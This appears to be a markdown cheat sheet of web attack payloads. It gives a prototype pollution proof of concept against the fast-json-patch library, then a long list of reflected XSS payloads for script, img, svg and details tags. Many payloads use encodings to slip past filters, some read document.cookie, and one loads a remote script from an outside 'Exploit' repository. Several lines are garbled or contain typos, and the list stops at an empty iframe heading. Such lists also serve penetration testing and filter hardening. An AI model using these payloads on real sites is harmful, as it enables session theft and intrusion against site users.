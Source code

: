 ## Prototype Pollution

```
const obj = {}
obj.__proto__ == obj.constructor.prototype # true
```

```js
const jsonpatch = require('fast-json-patch');
const a = {};
const payload = [{op:'replace', path:'/constructor/prototype/polluted', value:'Prototype Pollution'}];
jsonpatch.applyPatch(a, payload);

console.log(a.polluted) # Prototype Pollution
```

[Cheat Sheet](https://github.com/BlackFan/client-side-prototype-pollution)

---
## XSS Payload

### Reflected XSS statement 

```html
script tag
<scrit>void''??globalThis?.alert?.(...[0b1_0_1_0_0_1_1_1_0_0_1,],)</script>
<script src='https://cdn.jsdelivr.net/gh/wjddnjs33/Exploit/pocas.js'></script>
<script>alert(1)</scipt>
<script>this["alert"](this["document"]["cookie"]);</script>
<script>onerror=alert;throw 1</script>
<script>{onerror=alert}throw 1</script>
<script src="data:;base64,YWxlcnQoMSk="></script>
折ㅛ줯r�켺t折쩫lert(1)折�/岬cr�켺t折�
<script/src=https://cdnjs.cloudflare.com/ajax/libs/angular.js/1.8.2/angular.js></script><div/ng-app><input/autofocus/ng-focus=$event.path|orderBy:'[].constructor.from([1],alert)'></div>
%2sscript%2ualert()%2s/script%2u

img tag
<img src=x onerror=window.alert(1) >
<img src=x onerror=window['eva'+'l'](alert(1)) >
<img src=x onerror=_=alert,_(/xss/) >
<img src=x onerror=_='e'+'val',_(alert(1)) >

svg tag
%u003Csvg onload=alert(1)>
%u3008svg onload=alert(2)> 
%uFF1Csvg onload=alert(3)>
<Svg%K9OnLoad=%7Krompt%6K1%6K>
<svg onload=&#97&#108&#101&#114&#116&#40&#49&#41>
<svg onload=alert&#0000000040document.cookie)>
<svg/onload=setTimeout('\141\154\145\162\164\50\61\51')>
<svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
<svg onx=() onload=window.alert?.()>
  
details tag
<details open ontoggle=top.alert(1)>
<details open ontoggle=top['prompt'](1)>
<details open ontoggle=eval('alert(1)') >
<details open ontoggle=eval(atob('YWxlcnQoMSk=')) >
<details open ontoggle=eval('\141\154\145\162\164\50\61\51') >
<details open ontoggle=eval(String.fromCharCode(97,108,101,114,116,40,49,41)) >
  
iframe tag
```